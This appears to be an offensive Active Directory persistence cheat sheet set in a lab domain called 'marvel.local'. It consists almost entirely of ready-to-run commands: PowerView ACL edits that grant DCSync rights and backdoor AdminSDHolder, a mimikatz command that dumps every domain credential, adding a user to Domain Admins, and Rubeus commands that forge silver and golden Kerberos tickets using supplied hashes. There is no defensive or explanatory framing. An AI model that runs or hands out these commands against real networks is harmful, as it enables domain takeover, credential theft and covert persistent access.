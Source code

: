 ### DCSync Backdoor
```powershell
Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectDN -eq "DC=Marvel,DC=local" -and $_.ObjectAceType -match "DS-Replication" -and $_.SecurityIdentifier -match "S-1-5-21-410602843-3916082903-3170366279-[\d]{4,10}" } | select SecurityIdentifier,ObjectDN,ActiveDirectoryRights,ObjectAceType | fl

Add-DomainObjectAcl -TargetIdentity "DC=marvel,DC=local" -PrincipalIdentity user4 -Rights DCSync

mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:marvel.local /all /csv" exit
```

### AdminSDHolder
```powershell
Add-DomainObjectAcl -TargetIdentity "CN=AdminSDHolder,CN=System,DC=marvel,DC=local" -PrincipalIdentity user5 -Rights All

Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectDN -match "CN=AdminSDHolder,CN=System,DC=MARVEL,DC=local" -and $_.SecurityIdentifier -match "S-1-5-21-410602843-3916082903-3170366279-[\d]{4,10}" } | select SecurityIdentifier,ObjectDN,ActiveDirectoryRights,ObjectAceType | fl

net group "Domain Admins" user5 /domain /add
net group "Domain Admins" user5 /domain /delete
```

### Silver Ticket (RC4, AES256)
### Machine Account to impersonate any user on any service on that machine
```powershell
Rubeus.exe silver /service:cifs/machine.marvel.local /rc4:b2dfc9634eae3d4772050b979f3f3e2f /user:user3 /domain:marvel.local /sid:S-1-5-21-410602843-3916082903-3170366279 /nowrap /ptt
```

### Golden Ticket (RC4, AES256)
### KRBTGT Account to impersonate any user on any service on any machine
```powershell
Rubeus.exe golden /rc4:249030b29d08621192b77cb5c8580fad /user:user3 /domain:marvel.local /sid:S-1-5-21-410602843-3916082903-3170366279 /nowrap /ptt
```
